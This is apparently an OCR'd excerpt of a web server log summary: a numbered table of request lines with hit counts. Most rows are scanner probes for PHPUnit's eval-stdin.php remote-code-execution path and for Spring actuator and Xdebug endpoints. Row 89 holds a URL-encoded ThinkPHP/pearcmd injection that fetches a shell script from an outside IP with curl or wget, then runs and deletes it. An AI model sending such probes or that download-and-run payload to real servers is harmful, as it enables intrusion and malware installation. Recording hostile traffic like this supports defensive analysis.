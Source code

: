 |  79 |                     6 | GET /core/app/vendor/phpunit/phpunit/src/Util/PHP/eval-stdin.php HTTP/1.1                                                                                                                                                                                                                                                                                                                                                      |
|  80 |                     6 | GET /pos/vendor/phpunit/phpunit/src/Util/PHP/eval-stdin.php HTTP/1.1                                                                                                                                                                                                                                                                                                                                                           |
|  81 |                     6 | GET /actuator/gateway/routes HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                          |
|  82 |                     6 | GET /?XDEBUG_SESSION_START=phpstorm HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                   |
|  83 |                     6 | GET /laravel_api/vendor/phpunit/phpunit/src/Util/PHP/eval-stdin.php HTTP/1.1                                                                                                                                                                                                                                                                                                                                                   |
|  84 |                     6 | GET /laravel_web/vendor/phpunit/phpunit/src/Util/PHP/eval-stdin.php HTTP/1.1                                                                                                                                                                                                                                                                                                                                                   |
|  85 |                     6 | GET /lab/vendor/phpunit/phpunit/src/Util/PHP/eval-stdin.php HTTP/1.1                                                                                                                                                                                                                                                                                                                                                           |
|  86 |                     6 | GET /old/vendor/phpunit/phpunit/src/Util/PHP/eval-stdin.php HTTP/1.1                                                                                                                                                                                                                                                                                                                                                           |
|  87 |                     6 | HEAD / HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                |
|  88 |                     6 | GET /production/api/vendor/phpunit/phpunit/src/Util/PHP/eval-stdin.php HTTP/1.1                                                                                                                                                                                                                                                                                                                                                |
|  89 |                     6 | GET /index.php?s=index/index/index/think_lang/../../extend/pearcmd/pearcmd/index&cmd=cd%20%2ftmp%20%7c%7c%20cd%20%2fvar%2ftmp%20%7c%7c%20cd%20%2fdev%2fshm%3b%20curl%20-O%20http%3a%2f%2f196.251.115.173%2fsh%20%7c%7c%20wget%20http%3a%2f196.251.115.173%2fsh%3b%20chmod%20%2bx%20sh%3b%20.%2fsh%20thinkphp%3b%20rm%20-rf%20sh HTTP/1.1                                                                                       |
|  90 |                     6 | GET /git/vendor/phpunit/phpunit/src/Util/PHP/eval-stdin.php HTTP/1.1                                                                                                                                                                                                                                                                                                                                                           |
|  91 |                     6 | GET /local/vendor/phpunit/phpunit/src/Util/PHP/eval-stdin.php HTTP/1.1                                                                                                                                                                                                                                                                                                                                                         |